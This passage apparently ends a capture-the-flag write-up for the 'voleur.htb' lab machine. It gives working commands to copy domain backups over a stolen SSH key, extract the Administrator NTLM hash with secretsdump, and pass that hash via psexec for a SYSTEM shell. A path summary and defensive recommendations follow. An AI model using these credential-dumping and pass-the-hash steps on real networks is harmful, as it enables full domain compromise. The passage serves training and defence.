

Copy the whole `Backups` folder to the attack host over the same SSH key:

```bash
scp -i id_rsa -P 2222 -r \
  svc_backup@10.129.232.130:"/mnt/c/IT/Third-Line Support/Backups" .
```



Sanity-check the local tree before dumping:

```bash
tree Backups
```


Offline secretsdump against the trio of files — pull the Administrator NTLM hash:

```bash
impacket-secretsdump \
  -system registry/SYSTEM \
  -security registry/SECURITY \
  -ntds "Active Directory/ntds.dit" local
# Administrator:...:e656e07c56d831611b577b160b259ad2
```


Pass-the-hash (Kerberos AES / RC4 as needed) and read the root flag:

```bash
nxc smb dc.voleur.htb -u administrator -H e656e07c56d831611b577b160b259ad2 -k
impacket-psexec -hashes :e656e07c56d831611b577b160b259ad2 -k \
  "voleur.htb/administrator@dc.voleur.htb"
# whoami → voleur\administrator
# type C:\Users\Administrator\Desktop\root.txt
```


🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Kerberos auth as Ryan → BloodHound → `IT` First-Line → crack `Access_Review.xlsx` (`football1`).
2. `svc_ldap` WriteSPN on `svc_winrm` → Kerberoast → crack → WinRM → **user**.
3. `RESTORE_USERS` → restore `todd.wolfe` → archived profile DPAPI → `jeremy.combs`.
4. Third-Line `id_rsa` → SSH `svc_backup` on WSL:2222 → NTDS/SYSTEM/SECURITY backups → Admin hash → **root**.

---
## Defensive Recommendations

- Do not store cleartext passwords or leaver passwords in shared spreadsheets; encrypt and restrict First-Line shares.
- Avoid granting WriteSPN / GenericWrite to tier-0 adjacent service accounts; monitor SPN changes.
- Treat `RESTORE_USERS` / Recycle Bin restore rights as privileged; alert on `Restore-ADObject`.
- Do not leave archived user profiles (DPAPI + Credentials) on world-readable SMB shares.
- Keep sensitive backup media (`ntds.dit`, registry hives) off shares readable by backup/WSL service accounts; encrypt and ACL tightly.
- Prefer HTTPS+EPA for any remaining NTLM-sensitive protocols; keep NTLM disabled only as part of a broader Kerberos hardening plan.
